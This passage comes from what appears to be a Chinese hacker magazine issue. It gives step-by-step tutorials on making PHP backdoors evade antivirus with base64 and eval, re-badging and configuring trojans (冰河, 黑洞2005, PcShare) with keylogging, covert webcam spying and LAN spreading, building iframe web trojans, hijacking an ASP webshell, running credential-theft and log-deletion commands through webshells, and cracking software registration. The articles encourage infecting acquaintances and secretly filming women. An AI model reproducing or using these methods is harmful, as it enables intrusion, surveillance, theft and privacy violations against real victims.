这段脚本运行的时候就是显示“测试”两个字。那么，我们怎么把这代码变得面目全非，用来逃脱杀毒软件的毒爪呢？其实我们可以把 PHP 代码 base64 了，然后用 eval 函数来调用。

先来分析一下，我们要处理的是上面代码去掉 `<?php` 和 `?>` 的部分。这里我们取 `echo "测试";`，将它 base64 后的代码为 `ZWNobyKy4srUjls=`，那么我们怎么才能让这段代码可以运行起来呢？在 PHP 里 `base64_decode` 函数可以用来恢复 base64 的代码。那么我们在这里将代码换一种写法，写成：

```php
<?php eval(base64_decode('ZWNobyKy4srUjls=')); ?>
```

看起来代码好像是多了很多，其实运行起来和上面的代码是一样的作用。我来给大家解释一下，其中 `eval()` 中可以带 PHP 语句，而 `base64_decode` 这个函数可以把 base64 的代码还原。那么上面的代码其实就等于是 `<?php eval('echo "测试";');?>` 或者是 `<?php echo "测试";?>`。大家可以看到，虽然是一样的作用，但是很显然代码已经变得面目全非了，依赖特征码的杀毒软件也就傻眼了。

我们完全可以用这样的方式来修改 phpspy 等后门，处理后的 PHP 后门将不会被杀毒软件找到。手动进行 base64 的处理显然是不可能的，所以我写了一个脚本进行这样的操作（do.php）。为了可以让一些朋友明白我的意思，我在这里拿小A的 phpspy2006 的 demo 版给大家演示一下如何进行 PHP 脚本变形。

首先我们去掉代码最前面的 `<?php` 和最后一句的 `?>`，这部分是 PHP 语句的开始和结束标符。我们把剩下的代码复制到后门变形的文本框里去，记住自己设置的 phpspy 的密码哦（到时候变得面目全非很麻烦的）。然后我们点“开始罪恶的变形”，大家可千万不要点两次哦，万一出错可不要说我没有告诉你哟。之后我们的代码就生成了，如图2，是不是有点面目全非的样子啊。

我们来看这个变形后的后门能不能正常使用？大家可以看到图3，这个 phpspy 是可以正常运行的，而且还可以躲避当前所有的杀毒软件。大家还不赶快自己做一个？其实很简单的对不对，可是生成后依赖特征码杀毒软件就拿我们一点办法都没有了。

> （本文所涉及的软件 do.php、phpspy2006 已收录在本期光盘中）


### 打造X档案专版冰河

凯旋探梦

各位 X 的黑友大家好啊，在新的一年里技术是不是又长了一岁呢？总之我会改造冰河了。现在网上有很多的专版冰河，都是 2.2 版以后为了躲过杀毒软件修改的后续版本。下面我就把我改造专版冰河的详细过程给大家说说，让各位菜鸟也能做出属于自己专版的冰河来！

首先我们在网上找到 DARKSUN 专版的冰河，这个就是冰河 2.2 原版的，也是最后一个版本。现在原版的冰河有了，我们来看看要用到哪些工具：

- 1. PEID（查壳的工具）
- 2. UPX Shell（UPX 的加脱壳软件）
- 3. UltraEdit 10.0（16 进制编辑软件）
- 4. ResHacker（好用的资源修改软件）

有这四个软件我们就可以开工了，首先我们用 PEID 查冰河客户端和服务端加的什么壳，查询结果出来了，是用 UPX 加的壳！如图1。


好！我们现在用 UPX 的脱壳工具——UPX Shell 来脱壳，用 UPX 打开冰河的客户端和服务端，然后选择 UPX Shell 里面的“压缩”选项并执行，脱壳成功如图2。现在再用 PEID 查一下客户端和服务端，显示为 Borland C++，如图3。


现在壳已经脱掉了，我们就可以进行修改了。这里我用的是 ResHacker，这个功能比较强大，也特别好用。有人会说用 eXeScope，但它在修改客户端或服务端图标时，常会弹出“不能更改这个资源的大小”的提示。

所以我们不用 eXeScope，而用 ResHacker，就不会有这些问题！现在我们先修改冰河客户端，打开 ResHacker 把冰河放进去，先把一些字串改成自己的。点击 RC 数据，主要修改 TABOUTFORM 和 TSPLASHFORM 两个项目，如图4。


下面我再说说要改哪些项目的字符串，请参考下面表格里的内容，你可任意修改！如下表格1。

| 原始项 | 修改项 | 作用 |
|---|---|---|
| 关于“冰河...” | 关于“冰河X档案专版...” | 对话框的标题 |
| haxingn@21cn.com | hackersfiles@263.net | 对话框里的 e-mail 地址 |
| 作者：黄鑫 | 作者：凯旋探梦 | 对话框里的作者名称 |
| http://21cn... | http://www.hackersfiles.net | 对话框里的网址 |
| 《V2.2正式版》 | 《X档案专版》 | 对话框里的版本数值 |
| 2003年3月27日 | 2005年3月11日 | 对话框里的发布日期 |


这个关于窗口我们已经修改成功了，下面还有看 TSPLASHFORM 这个项，这里只有一个地方要修改。我们看右面编辑框里的数据，这个里面很多，但只修改一个地方。我们把滚动条拉到最下面，就会看到 `[DARKSUN 专版]` 这几个字串了，如图6和表格2。

```pascal
end
object Label3: TLabel
  Left = 39
  Top = 78
  Width = 84
  Height = 12
  Caption = '[DARKSUN专版]'
  Font.Charset = GB2312_CHARSET
  Font.Color = clBlack
  Font.Height = -12
  Font.Name = '宋体'
  Font.Style = []
  ParentFont = False
  Transparent = True
end
```

| 要修改的字串 | 修改成字串 | 作用 |
|---|---|---|
| [DARKSUN 专版] | [黑客X档案专版] | 启动画面上的版本名称 |

表格2

我们修改后保存，然后运行看看，如图7。


启动画面上的那个“DARKSUN 专版”几个字变成“黑客X档案专版”了。接着再来修改一下图标。我们点击 ResHacker 里的“操作”菜单，点击“替换图标”，会弹出替换图标对话框，选择新图标后点击“替换(R)”按钮，即可完成替换（图8）。


你一定不知道它在哪里改，告诉你吧，这几个字在 ResHacker 里面是找不到的！我们要请出 16 进制编辑软件 UltraEdit 10.0。它不仅可以十六进制方式编辑修改文件，还可用于 C、PHP、CGI、ASP 等源码编辑。我们打开 UltraEdit 10.0 载入冰河，在查找内容里填写“冰河 V2.2 [DARKSUN 专版]”，替换为“冰河 V2005 [X 档案专版]”，注意勾选 ASCII 并执行全部替换，提示有 4 个项目被替换。

> 注意：替换的字符长度要和原字符一致（字节数相同），示例中 23 个字节。


现在我们关掉 UltraEdit 10.0，点击修改后的冰河看看是不是已经完成。这是我修改后的效果（图11）。


客户端改造工程算是完成了，下面该改服务端了。这里更重要，主要改万能密码和服务端版本。冰河 2.2 的万能密码是 05181977，我们用 UltraEdit 10.0 打开服务端并搜索替换，改成 77899022。注意字节要相等（8 字节）。接下来还要替换服务端版本字串。

> 注意：部分需要强码的 2.2 版本中会有一段“程序准备前奏曲（铁窗）”提示语，这些也可以修改。

我们再把“V2.2 [DARKSUN 专版]”替换为“V2005 [X 档案专版]”（图12）。服务端图标改不改就看你了。


现在一个 X 档案专版的冰河已经全部修改完成了。要躲过杀毒软件，可进一步改特征码（此处略）。最后提醒一句：做什么事都要有耐心啊！

### 注册黑洞2005

贾宁

黑洞一直是笔者非常喜欢的一款国产木马，近日在作者陈经韬官方论坛了解到，作者已停止开发以前用于收费的黑洞注册版。黑洞从 2005 年开始成为免费软件，并不定期进行更新。黑洞作为一款国内出现较早的木马程序，现在已经被作者定位为中文远程控制软件。

“安装选项”“启动选项”“功能选项”和“上线选项”四个选项，每个选项内容都针对不同配置。在“安装选项”中可以对木马服务端安装路径及安装名称进行设置（如图2）。


黑洞2005为用户提供了多个安装路径以供选择，包括远程计算机的 Windows 目录、System 目录及 Temp 目录。可设置“安装完毕后删除安装文件”“安装完后显示提示”等选项，并可在“启动选项”中设置系统启动方式。

全新的黑洞2005对 Win98/WinMe 系统通过修改注册表实现启动，对 WinNT/2000/XP/2003 采用服务方式启动。可设置服务名、显示名称、服务描述等内容。

### 打造木马服务端

首先在黑洞官方主页下载黑洞2005专业版演示版，解压后运行客户端程序 Client.exe。从操作界面看，黑洞2005仍采用黑洞2004界面（如图1），改动并不算大，主要集中在新功能和配置细节上。


为了使木马使用更加得心应手，需要按自己的意图配置服务端程序。点击“文件”菜单中的“配置服务端”命令，可弹出“服务端程序配置”窗口。新的配置窗口分为多个选项卡，便于个性化设置。


在“功能选项”中可选择“允许键盘记录功能”“允许系统密码功能”及“使用屏幕录像功能”，并设置“录像每帧间隔时间”。还可启用“运行后在任务栏显示图标并允许退出”等选项。

接下来，最后选择“上线选项”选项卡，新的黑洞2005在连接方式上放弃了原先传统的自动连接方式，只保留了现在流行的反弹连接这一种连接方式（如图5）。


图5

黑洞2005的反弹连接同样为用户提供了两种方案，即“域名反弹”和“FTP反弹”。“FTP反弹”是较早的一种反弹方式，这种反弹方式相对“域名反弹”不论在难度上大一些，速度慢一些，还会有诸多限制，因为这种反弹方式前提就是需要一个网络空间的支持。下面就以“域名反弹”为主为大家讲解。如果你没有现成的域名，可以单击下面的“查看”按钮，在弹出的“更新IP地址”界面中选择“yeah.net 更新IP”面板，我们可以在这注册网易公司的免费二级域名，输入你喜欢的域名和密码，单击“注册”按钮，在下面的窗口中会反映出注册的情况（如图6）。


图6

这里要提醒大家一下，由于最近 yeah.net 的域名服务器常常出问题，所以大家尽量采用 126.com 这个域名服务器。域名注册成功以后，返回“上线选项”窗口，填入刚刚申请的域名，如 `http://newhd2005.126.com`，点击“测试”按钮测试输入是否正确。现在，关于服务端的配置已经基本完成了。如果用户想更改服务端的图标，可以点击“修改图标”按钮选择图标，软件默认的服务端图标是记事本程序的图标。用户在弹出的“图标选择”窗口点击“选择文件”按钮，黑洞不仅支持图标图片文件（*.ICO，*.BMP），而且可以从可执行文件（*.EXE）和动态连接库文件（*.DLL）中提取图标进行使用（如图7）。


图7

用户可以通过箭头符号来选择相应的图标，选择完成后，点击“确定”按钮即可。所有的设置都完成后，点击“生成”按钮就可以生成一个用户需要的服务端程序，生成的服务端程序仅 170K 左右，比以前的 300 多K 小多了。因为现在黑洞的软件定位为远程管理工具，所以新的黑洞2005已经不使用线程注入等隐藏服务端的技术了，如果你想隐藏服务端程序，可以用文件夹中自带的 AFX Rootkit 2005 实现。

### 种植木马

现在最流行的木马种植方法要算网页木马了。正好冰狐狸开发了一个利用微软 IFRAME 溢出漏洞的网页木马生成器。今天，我们就利用该生成器来生成一个网页木马。首先在网上下载网页木马生成器的压缩包（`http://www.icyfoxlovelace.com/up/1110702235.rar`），运行木马生成器程序 wymnpro.exe，在弹出的“IE网页木马专业版生成器”操作面板中找到“木马程序路径”栏，在后面输入刚刚上传的木马服务端程序的路径，如 `http://www.icyfoxlovelace.com/test.exe`，其它的设置项我们都按照程序的默认设置就可以了。

配置完成后，最好选中“对生成的网页木马代码进行压缩加密”选项，这样的话，就可以避免生成的网页木马被杀毒软件查杀。最后在“生成的网页名称”后输入网页木马的名称，再点击“生成”按钮即可生成网页木马了。将生成的网页木马上传到网页空间，当有人浏览后就会掉进这个精心设置好的陷阱。

### 控制服务端

当网络连接成功后运行黑洞，由于黑洞2005全部数据使用一个端口完成，这样也便于内网的用户进行端口映射操作。首先点击“系统设置”菜单下的“连接端口与密码设置”命令，在弹出的窗口中设置你需要的监听端口和连接密码（如图8）。


图8

重新启动木马软件即可生效。然后点击“自动上线”按钮，在弹出的窗口中切换到“yeah.net 更新IP”面板，填入你申请的域名和密码，点击“更新到空间”按钮，动态域名就会被转换为当前的 IP 地址。当服务端连接域名时，实际就是连接你的 IP 地址，这样远程的服务端就会和本地的客户端自动连接了。这里需要提醒一下大家，最近网易的域名服务器常常出问题，大家在更新域名时要多试几次。成功连接后，就有一台电脑到我们的客户端来“报到”（如图9）。


图9

我们可以清晰地在客户端中看到服务端电脑的上线名称、IP地址、实际地址、上线时间、服务端版本等信息，新版本支持在线修改远程服务端电脑的上线名称。我们随便单击用户列表中的一个 IP 地址后，就可以开始对这台电脑进行远程控制了。首先我们来看看黑洞的文件管理功能，一个远程控制软件的好坏，其远程文件管理功能是否强大就显得尤为重要。点击“文件管理”按钮，在弹出的“文件管理”窗口就可以进行文件管理操作。黑洞的文件管理界面模仿了远程控制软件 Radmin，用户可以通过鼠标直接把文件拖放到目标文件夹来进行文件的上传、下载操作，并且可以通过鼠标右键命令对本地电脑以及远程电脑中的文件进行打开、运行、新建、重命名、删除等操作。新的黑洞2005对文件管理功能进行了进一步的优化提升，真正实现了多线程操作。以前使用黑洞2004时，用户想同时下载两个文件，那么软件就会一个接一个地下载，在黑洞2005中就实现了多文件同步下载，从而有效地节省了传输的时间（如图10）。


除了可以进行同步下载外，黑洞2005还可以实现基于多对象文件的完全操作，而以前只能同时对单个目录或文件进行操作（如图11）。


黑洞2005同样为用户提供了抓屏功能，有“手工抓屏”和“自动抓屏”两种方式。通过“手工抓屏”功能，在弹出的“屏幕监控”窗口中就可以清晰地看到对方的屏幕（如图12），不过该功能每次只能抓取一张图片；当你需要再次抓取对方屏幕时，需要点击右键菜单中的“下一幅”命令。而“自动抓屏”功能就可以自动连续不断地抓取对方屏幕，这样可以及时地了解远程用户的操作。

用过黑洞2004的用户都感觉到，黑洞的抓屏速度明显没有同类的其它软件速度快。在新版的2005中，作者通过对代码的重新编写优化，并且使用了数据聚发技术，能最大限度地使用网络传输流量，抓屏速度明显得到了提升。无论你选择哪一种抓屏方式，都可以通过点击右键菜单中的“保存图片”命令，把抓取的图片保存到硬盘，并且还可以通过菜单中的“允许控制远程鼠标、键盘”命令对远程桌面进行实际控制。


还可以发送热键 Ctrl+Alt+Del 让远程电脑重启。

视频监控是从黑洞2004起新添加的特色功能，在黑洞2005中得到了继承发展。如果远程计算机有安装 USB 摄像头，无论其是否开启，黑洞都可以成功将其打开并且通过它来获取摄取的图像。新添加的摄像头采用自动侦测技术，可以当服务端电脑中的摄像头拔下或插上时，通过动态提示在上线图标中改变有无摄像头的标志。黑洞2005的视频监控可以自定义传输图像大小，并可直接保存为 Mpeg 文件（如图13）。


如果用户需要查看保存的视频图像，可以点击“资料管理”菜单中的“本地视频文件管理”命令进行查看。黑洞2005除了对黑洞2004已有的命令进行了优化处理外，新增加了一个非常强大且实用的功能——网络邻居，它能直接渗透进入服务端局域网中的电脑。


点击“网络邻居”按钮，弹出一个提示框“搜索网络计算机可能需要一定时间，是否继续？”（如图14）。点击后弹出“网络邻居”的窗口，操作上和文件管理一样方便。你可以方便地将木马上传到局域网其它电脑并运行，这样你就可以拥有更多的肉鸡。类似的功能在木马——广外男生中就出现过，不过黑洞2005在功能上要比它强很多。

除了上面介绍的这些加强过的功能以及新添加的功能外，黑洞2005还增加了“广播命令”功能。广播命令就是一个集群控制平台，用户可以一次对多台远程计算机进行统一操作。

在操作面板的内容列表中点击鼠标右键，在菜单中选择“广播命令”按钮，在弹出的“广播命令”窗口可以对列表中的内容进行重启电脑、关闭电脑、远程卸载、下载文件等操作（如图15）。


点击“下载文件”按钮，在弹出的窗口中设置文件的下载连接，并设置运行参数以及运行方式等（如图16），这样就可以批量地对肉鸡升级服务端程序或下载执行某个程序了。


黑洞2005的功能及使用方法我就先介绍到这，剩下的就请大家动手体会吧，相信黑洞2005一定不会让黑洞的忠实者失望的！

> （黑洞2005 本期光盘有收录）

# 牧马记

### 蓝屏木马存在严重漏洞


网上玩 ASP 木马的人很多，这其中有许多好的木马，蓝屏木马就是其中的一款。虽然名气不及海阳顶端、冰狐浪子等木马出名，但很多养马者对它还是情有独钟的。但是，最近发现这个木马存在一个漏洞，即使别人在不知道密码的情况下也可以将它搞定！下面，我以 `http://www.xxx.com/manage/Upload/unicorn.asp` 为例来给大家讲解具体的做法。首先，我们在 IE 里输入 `http://www.xxx.com/manage/Upload/unicorn.asp`（图1），我们很想进去，但是它要密码。既然它要密码，那么大家就看我是怎样搞定密码的。

大家看我标的 `D:\Hosting\WwwRoot\xxxxxxxxxxxx\htdocs\manage\Upload\unicorn.asp`，就是我的木马的绝对路径。知道木马路径之后，就好办了。我们可以把它下载下来。什么？你说是用 IE 或下载软件下吗？当然不是啦！我们可以在 `http://www.xxx.com/manage/Upload/unicorn.asp` 后面加上 `?q=down.asp&path=D:\Hosting\WwwRoot\xxxxxxxxxxxx\htdocs\manage\Upload\unicorn.asp`，看到了吗，我们就把这个木马下载下来了！（图3）


我们在 `http://www.xxx.com/manage/Upload/unicorn.asp` 后面加上 `?q=test.asp`，也就是说我们在 IE 里输入 `http://www.xxx.com/manage/Upload/unicorn.asp?q=test.asp`。哈哈！！大家看到木马自身带的 ASP 探针了吧（图2）！由于蓝屏木马没有对嵌入的 `test.asp` 设置访问权限，所以可以直接访问，这里最主要是得到木马的绝对路径！


下载下来就可以看它的源代码了，查找里面 `if Epass(trim(request.form("password")))="xxxxxxxxxx" then`（注：`xxxxxxxxxx` 为加密后的密码，长度为 10 位），这里显示的密码已经被加密了，接下来就要把加密的密码还原。至于怎样破解，那就八仙过海各显神通喽！这里我要给大家介绍一个非常棒的工具——`jhcr.exe`，把 `xxxxxxxxxx` 填写到“加密后的密码框”里，点“解密”就出来了。这下，就可以用这个密码登录到 `http://www.xxx.com/manage/Upload/unicorn.asp` 了，这样就拥有了这个网站 webshell 权限了！最后奉劝大家不要恶意删除网站文件，切记！


### 实战灰鸽子2005客户端脱壳

作者：荔明奇

灰鸽子这款功能强大的远程控制类软件，由于采用了“反弹端口原理”的连接方式，可以访问到局域网里通过 NAT 代理、HTTP 代理上网的电脑，并且可以穿过某些防火墙，因此得到不少养马者的青睐。

关于破解灰鸽子的作品也伴随着灰鸽子的成长历程不断发表……本文我给大家献上我的脱壳实例——实战灰鸽子 2005 脱壳！


OK! Let's Go! 首先我们用 PEiD 检查灰鸽子 2005，看到没，检测不到壳！not found，如图1。


接着我们用 OllyDbg 载入灰鸽子 2005，遇到如下的警告；我们点“确定”，如图2。


第三步：我们点完“确定”，自动来到这里——即程序的入口点（加过壳的），如图3。


第四步：我们开始单步跟踪（F8）……第五步：到下面这个地方我们也要注意啦，方法同上，F4 运行到所选！如图5、图6。


第六步：我们一直单步跟踪……来到了传说中的灰鸽子 2005 的 OEP。`005B5F60` 即 `001B5F60`，公式为：`005B5F60 = 400000（基址） + OEP（001B5F60）`，如图7。


第七步：我们胜利而归，把真正的程序 dump 掉就 OK 了……第八步：程序虽然脱壳完成，但输入表已被破坏，需要用 ImportREC 修复，如图8。


来的灰鸽子 2005，用 `ImportREC.exe` 选中它，在它的 OEP 选项中我们填入 `001B5F60`，点 IAT 自动搜索，再点获取输入信息，看到没？指针全是有效的，OK 了，点修复，如图9、图10。


图9


图10

抓取文件，我们选中脱了壳的文件就可以了，保存。第九步：其实我们已经完成了 2005 的脱壳，为了确认一下，我们再用 PEiD 检测一下，看到没？delphi——灰鸽子就是用 delphi 编的哦！如图11。


图11


HaJunEcK [F.W.S.T]

伴随着黑客 X 档案的三岁生日，我们忠实的读者也在慢慢地由小菜鸟变成了大鸟了（嘿嘿，表扬一下你们，是鼓励你们哦，不要骄傲啊！）。在黑客 X 档案的带领下，加上中国脆弱的网络环境，大家现在随便用些扫描技术，或者脚本漏洞入侵，我想仍然可以轻易得到很多肉鸡吧，拿到服务器管理员权限也难不倒你们的啦！可是很多朋友都抱怨，大多数时候只会用 3389 来控制肉鸡，很快就给发现了，大不了就弄个隐藏用户，或者克隆用户，可是遇到厉害的管理员还是给 kill 掉了，而且也不方便管理。那么怎么办呢？当然是用个好的远程控制软件啦，就是木马啦，呵呵，女生最怕的东西。但是又有好多菜鸟要噘嘴了，服务端的配置好复杂啊，又是内网啊……又要什么端口映射，又麻烦，又难搞，老是不成功。

嘿嘿，别急，这就是我今天要介绍这款软件的其中一个重要的原因啦。好啦，现在就让我们今天的主角出场啦——PcShare 2005——内网用户方便实用的一个代表！最新的免费的版本是：PcShare2005（Build00427）汉化版，也就是我今天要说的这个。先来看看它的界面，如图1。


图1

怎么样，整体的界面还算整洁吧，一般该有的功能它都不缺少，像那些文件管理啊，屏幕控制啊，键盘监控啊，我想这些功能，玩过远程控制软件的朋友都会很熟悉的啦。

好啦，现在我们来看看它的服务端如何配置。首先，在参数设置那里，我们先来设置一下自动上线的端口和最大客户连接数，如图2。默认的自动上线连接端口是 80，如果你不是做服务器，那么这里就不用改了，默认最大客户连接数量是 999，嘿嘿，这里也可以不改，除非你是养鸡大王。


图2

好了我们就用默认的吧。再看看生成客户端的配置，只有几个选项，不像灰鸽子、黑洞要配置 N 多地方，如图3。怎么样，够方便够简洁吧。呵呵……是不是很适合我们菜鸟用呢？！好啦。这里因为我是专门针对内网的用户来讲的，所以我就不介绍外网的一些设置了，外网的设置是更加简单的，可以自己看看说明就会了，而且跟其它的远程控制软件设置的没有什么区别。好了，我们继续，到这里，要转向另外一个重点啦。这里我们要下载一个内网建站专家，那么我们就不用搞什么端口映射之类的麻烦事情了。菜鸟们，别着急，不难的，跟着我做就好了。


其实就跟你注册邮箱、安装软件一样的简单。首先来到这个网址：`http://www.sharella.com/register/`，我们是内网用户，就选下面的那个“申请内网专业服务试用（1周）”，然后点下一步，进入填写用户信息界面，选择第一个的“使用系统提供的动态域名后缀”，然后把你要注册动态域名写上，这里我写 hajuneck，后缀我选择 dhcn.net（这些都由你自己写的），用户名也写 hajuneck，Email 地址我建议用 163 的邮箱，如图4，然后注册，就会得到注册码了，我的注册码是“SSV2BH00-DSH6USC0”，等下要用的，可不要太心急就忘记记录了哦。

呵呵，这一步就到此结束了（啊！怎么了，大家都累了？先不要放弃啊，成功就在前面了，你想着，过不了多久，我就可以内网控制其它的内网的肉鸡咯，坚持啊！）。


好了，现在来下载客户端，到这个网址下：`http://www.sharella.com/download/`。

这里我已经下好了……安装我就不演示了，就跟平时安装软件这样安装，打开刚才你下载的客户端，如图5。

倒回刚才的木马服务端的配置，如图7。


这里先说个重点的东西，看到图7最上面的一行，`192.168.1.101` 就是我的内网 IP 了，嘿嘿，免得你们说我作弊。转回配置，在“ip 地址端口”写上刚才我们注册的域名 `hajuneck.dhcn.net`，端口写 80，“宿主进程名称”这里有两个选项：

- 资源管理器 → `EXPLORER.EXE`（隐藏性好）
- 微软浏览器 → `IEXPLORE.EXE`（隐蔽性好）

这里我们选择第一个，因为第二个是微软浏览器，有可能对方不用 IE，那么就无法实现我们的目的了。呵呵，毕竟 IE 安全性差啊，而后面的“运行后自删除”和“键盘监控”都勾上，生成服务端，名字就自己定了，就 OK 了。

为了尽快测试出结果，所以我就发给我的其他宿舍的朋友，让他们运行，他们也是内网的，呵呵。五分钟过后了，来看看结果，如图8。


在“开通用户服务”下面的注册码处填入你刚才注册时得到的注册码，然后开通，再转到“域名设置那里”，如图6，选择“内网私有 ip 地址建站—内网建站专家服务”，然后应用就 OK 了。


哈哈，九台肉鸡啊！有没有发现一些东西呢，有些肉鸡的图标是显示电脑，有些是显示摄像头的。

呵呵，聪明的你应该猜到了吧，摄像头的表示对方是有摄像头的，并且这款远程控制软件，还可以悄悄地打开对方的摄像头，看到对方的样子哦，是不是很适合去测试一些你的女性网友呢，怎么样，是不是心动了啊，内网也可以轻易地控制肉鸡，菜鸟也可以方便管理内鸡群了。

突然可以实现自己多年来的愿望，是不是特别兴奋啊！好了，心动不如行动啊。赶快拿起工具来，玩玩吧……

这些给你们一些小提示啦，可以采用网页木马的方式，黑客 X 档案都教大家的。这里我就不废话啦。也可以用卑鄙一点的手段，就是上传到群里共享，或者捆绑到游戏中，欺骗人家运行……

> （本章中涉及到的程序 PcShare 2005 已经收录在本期光盘中）

### 打造完美的远程控制


死人堆里的佛

有人说现在的网页木马已经不实用了，因为病毒的出现使人们对陌生网址的可信度大大降低。但我却不这样认为，如果你的网页木马做得十分完美的话，那么一样会得到大量的肉鸡。今天我就给大家带来一次全新的网页木马，让菜鸟们也体会一下自己动手做网页木马的快感。还有就是给像我一样在内网上网的朋友介绍一下端口映射技术（在内网学黑客技术确实比较痛苦）。

- 冰狐浪子网页木马生成器（使用简单）。
- 木马一个（QQ 木马、传奇木马或其他均可，注意服务端大小和反弹能力）。
- 准备一张图片（可自选内容）。
- vidc1.2（做端口映射工具）。

工具准备好后，我们要先弄到一只有外网 IP 的肉鸡，方法很多。然后我们用 RADMIN 连上肉鸡，把 `vIDCs.exe`（服务端）上传后运行，再输入 `vIDCs.exe -p1234`，其中的 1234 是客户端连接肉鸡时所用的端口，如图2。


接着我们就开始做网页木马。首先生成木马的服务端，因为我们已经做了端口映射，所以这里填的就是肉鸡的 IP，如图3。


生成服务端后，把服务端命名为“*.exe”，然后复制粘贴在冰狐浪子网页木马这个文件夹里，然后双击“冰狐浪子超级网页木马生成器.jse”，就会生成文件名分别为“icyfox.htm”和“icyfox.js”的两个文件，如图4。


```html
<html>
<title>地址名称</title>
<iframe src="生成的HTM文件地址" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

其中的“地址名称”是你的木马网页的名称；在“生成的 HTM 文件地址”处填写先前生成的“icyfox.htm”；而“图片地址”就是你准备的图片名称。我准备的是“2.jpg”。然后把这个文本文件分别保存为两种格式，一个是“index.htm”，另一个就是“01.jpg”。

好了，到此我们的网页木马就做完了，然后就是上传。我这里给大家提供两个免费空间地址：`www.wap51.com` 和 `http://www.xintown365.com`。申请空间后，用 FTP 工具把“*.exe”“2.jpg”“icyfox.htm”“icyfox.js”“01.jpg”“index.htm”这六个文件上传到你的空间，如图5。


然后让别人访问 `http://www.xxx.com/index.htm` 或 `http://www.xxx.com/01.jpg` 都可以让对方中你的木马。我们拿本机测试一下，看看能不能上线，看到“把肉鸡上来了”，如图6。


> 由于本人技术有限，如有不妥之处，望高手批评和指正。  
> （本文中涉及到的程序 4899 探测、radmin.exe、VIDC1.2、冰狐浪子网页木马生成器、PCshare2005 已经收录在本期光盘中）

### 巧妙提升冰狐浪子 ASP 木马权限

最近我利用图片上传漏洞入侵了一个网站的校友录，顺利上传“海阳顶端”和“cmd.asp”都惨遭杀毒。于是尝试上传冰狐浪子微型 asp 后门（以下简称“冰狐”），结果成功了。兴奋之余却发现 DOS 命令无法执行（如图1），执行程序后没有回显，感觉很不爽。

于是拿出 VC++ 写出一个东东来弥补“冰狐”的不足。其主要功能就是让“冰狐”可以任意执行 DOS 命令并可以查看执行后的结果。

用法：`cc DOS命令`，例如：`cc dir > d:\cc.txt`

- 把我写的程序 `cc.exe` 上传至自己的个人空间上，设地址为：`http://www.xxxx.com/cc.exe`。
- 打开冰狐 `icyfox007.htm`，在 ASP URL 上填入木马地址，在 PassWord 上填入连接密码。
- 在第一个下拉菜单选择“ASP客户端2.0”，点击 RUN 按钮（如图2）。
- 在弹出的新窗口中“从 URL”填入 `cc.exe` 文件地址，“传到”填入你想上传 `cc.exe` 在肉鸡上的位置（比如 `d:\cc.exe`），点击上传（如图3）。
- 上传成功后在 RUN 中填入 `cc.exe` 路径及要执行的命令，例如：`d:\cc.exe net user >> d:\cc.txt`，即可生成包含账户信息的文本文件。
- 利用冰狐浪子后门下载刚生成的 `cc.txt` 文件，就可以得到肉鸡的用户信息（如图4、图5）。

**注意：**并不一定每次都可以成功生成文件，如果不能生成请尝试在非系统盘生成文件。

- 利用 `echo` 写文件，例如写一个网页被黑的 `htm` 文件：`cc echo "^<html^>此网页被我黑了哈哈^</html^>" > d:\cc.htm`
- 利用 `net user` 查看管理员信息：`cc net user administrator >> d:\cc.txt`，然后下载 `cc.txt`。
- 利用 `tftp` 或 `ftp` 命令上传下载：`cc tftp -i get|put [ip] [filename]`。
- 删除日志文件：`cc del c:\winnt\*.log`
- 可执行如 `findpass` 等程序并把结果下载下来，获取管理员密码：`cc findpass >> d:\cc.txt`。

可见如果在对方防火墙内外不通的情况下，此程序就可以发挥它的最大威力了。


# 神秘园


## Crack菜鸟成长晋级篇

### ——TTT安全破解小组之菜鸟爆破教学篇

秦妮 @[2195]

Crack是一门很深的学问，很多人都想做cracker，可是做一个cracker其实很累，需要花大量的时间，而且经常会碰壁，N长时间毫无进展是极为平常的事情。很多初学者还不会汇编，只会爆破一些简单的程序就以cracker自居，这样是不对的。破解是没有止境的。

做cracker的五个必要条件是：1. 知识 2. 经验 3. 感觉 4. 耐心 5. 运气。最基本的是要会一些汇编的基础知识。经验也很重要，在查找、判断复杂的关键跳和关键call时，很多时候要凭借长时间以来积累的经验。作为一名出色的cracker要有敏锐的感觉，破解每一句代码的作用和编程者的用意。耐心也是必不可少的，尤其是在分析算法的时候，要有足够的耐心把程序的注册算法从纷繁复杂的程序代码中提取出来。同时运气也是必不可少的，但运气建立在你扎实的基础上。今天我们就用几个简单的程序来向大家简单介绍一下crack的三个阶段。

### 一、一步查壳

首先我们要判断程序是否加壳，如加壳还要检查壳的类型，这里我们就使用PEiD来查壳，如图1。


图1

可以看出，这个Word文档资料管理系统是用Borland Delphi 6.0-7.0编写，程序没有加过壳。我们也可以用其他的软件来查壳，比如：pe-scan、FI、language2k……我个人比较喜欢用PEiD。这里要说的是pe-scan不仅可以查壳，还可以脱一些简单的壳，比较适合有一定破解经验的初学者。FI的查壳能力比较强，不过要在Dos下运行，界面比较“古老”，不是很受菜鸟们的青睐。language2k这个大家用得比较多吧！界面清楚，显示信息虽然不是很全面但比较简明，受到广大菜鸟们的青睐。

### crack的三个阶段

（框内说明性文字，介绍crack学习与实践的三个阶段：基础积累、技术提升、综合应用等。）

我们就拿《Word文档资料管理系统》和《网络电视小精灵》这两个软件来向大家讲解一下爆破的全过程。

- 软件：《Word文档资料管理系统》（友迈版）
- 查壳工具：PEiD（查壳工具）
- 反汇编工具：W32Dasm（反汇编）
- 文本编辑：UltraEdit
- 关键步骤：查壳 → 找到注册成功提示 → 定位关键跳转 → 修改程序逻辑

### 二、拿出手术刀——开刀！

现在我们来反汇编程序DMS.exe。这里我们使用W32Dasm来反汇编程序，然后查看注册信息，我们这里使用W32Dasm的“参考——串式参考”，如图2。


图2

我们可以看到“注册成功！谢谢您的注册，谢谢您对我们的支持！”这个是注册成功信息。一般来说，注册成功信息、注册失败信息和关键跳不会离得太远，所以我们反复双击这条注册成功信息，看注册信息在程序中出现几次。我们发现在这个程序里只有一处，如图3。


我们可以看见注册信息的顺序是：先成功后失败。注册失败是由0059A1C7处跳过来的（这个0059A1C7很有可能是关键跳，我们先不管），那么我们可以发现一下规律，注册流程大概应该是这样的，如图4。


我们通过简单分析得出注册流程大概是：输入注册码后，程序会用特定算法运算输入的注册码，然后通过判断与真正注册码是否一致来决定跳转分支；一致则提示“注册成功”，不一致则提示“注册码不正确，请重新输入”。因此只要改写关键跳转指令，就可以让流程走向成功分支。

